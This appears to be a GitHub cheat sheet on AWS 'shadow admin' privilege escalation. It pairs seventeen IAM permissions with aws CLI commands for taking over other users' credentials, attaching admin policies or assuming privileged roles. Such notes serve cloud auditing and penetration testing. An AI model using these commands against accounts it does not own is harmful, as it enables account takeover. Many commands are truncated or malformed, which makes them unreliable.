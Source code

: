 # AWS Shadow Admin

# TLDR: Fix later

## Admin equivalent permission

### 1) AdministratorAccess

 - "Action": "*"

 - "Resource": "*"

### 2) ec2:AssociateIamInstanceProfile : attach an IAM instance profile to an EC2 instance

 - aws ec2 associate-iam-instance-profile --iam-instance-profile Name=admin-role

### 3) iam:CreateAccessKey : create a new access key to another IAM admin account

 - aws iam create-access-key –user-name TARGET_USER

### 4) iam:CreateLoginProfile : add a new password-based login profile, set a new password for an entity and impersonate it

 - aws iam create-login-profile –user-name TARGET_USER –password 'PASSWORD'

### 5) iam:UpdateLoginProfile : reset other IAM users’ login passwords.

 - aws iam update-login-profile –user-name TARGET_USER –password 'PASSWORD'

### 6) iam:AttachUserPolicy, iam:AttachGroupPolicy or iam:AttachRolePolicy : attach existing admin policy to any other entity he currently possesses

 - aws iam attach-user-policy –user-name MY_USERNAME –policy-arn arn:aws:iam::aws:

## OR

 - aws iam attach-user-policy –user-name MY_USERNAME –policy-arn arn:aws:iam::aws:

## OR

 - aws iam attach-role-policy –role-name ROLE_I_CAN_ASSUME –policy-arn arn:aws:iam::

### 7) iam:PutUserPolicy, iam:PutGroupPolicy or iam:PutRolePolicy : added inline policy will allow the attacker to grant additional privileges to previously compromised entities.

 - aws iam put-user-policy –user-name MY_USERNAME –policy-name MY_INLINE_POLICY

### 8) iam:CreatePolicy : add a stealthy admin policy

### 9) iam:AddUserToGroup : add into the admin group of the organization.

 - aws iam add-user-to-group –group-name TARGET_GROUP –user-name MY_USERNAME

### 10) iam:UpdateAssumeRolePolicy + sts:AssumeRole : change the assuming permissions of a privileged role and then assume it with a non-privileged account.

 - aws iam update-assume-role-policy –role-name ROLE_I_CAN_ASSUME –policy-document file://

### 11) iam:CreatePolicyVersion & iam:SetDefaultPolicyVersion : change customer-managed policies and change a non-privileged entity to be a privileged one.

 - aws iam create-policy-version –policy-arn target_policy_arn –policy-document file://

 - aws iam set-default-policy-version –policy-arn target_policy_arn –version-id v2

### 12) lambda:UpdateFunctionCode : give an attacker access to the privileges associated with the Lambda service role that is attached to that function.

 - aws lambda update-function-code –function-name target_function –zip-file fileb://

### 13) glue:UpdateDevEndpoint : give an attacker access to the privileges associated with the role attached to the specific Glue development endpoint.

 - aws glue –endpoint-name target_endpoint –public-key file://path/to/my/public/ssh/id_rsa.pub

### 14) iam:PassRole + ec2:CreateInstanceProfile/ec2:AddRoleToInstanceProfile : an attacker could create a new privileged instance profile and attach it to a compromised EC2 instance that he possesses.

### 15) iam:PassRole + ec2:RunInstance : give an attacker access to the set of permissions that the instance profile/role has, which again could range from no privilege escalation to full administrator access of the AWS account

 - aws ec2 run-instances –image-id ami-a4dc46db –instance-type t2.micro –iam-instance-

 - aws ec2 run-instances –image-id ami-a4dc46db –instance-type t2.micro –iam-instance-

### 16) iam:PassRole + lambda:CreateFunction + lambda:InvokeFunction : give a user access to the privileges associated with any Lambda service role that exists in the account.

 - aws lambda create-function –function-name my_function –runtime python3.6 –role

 - aws lambda invoke –function-name my_function output.txt

### 17) iam:PassRole + glue:CreateDevEndpoint : access to the privileges associated with any Glue service role that exists in the account.

 - aws glue create-dev-endpoint –endpoint-name my_dev_endpoint –role-arn arn_of_glue_
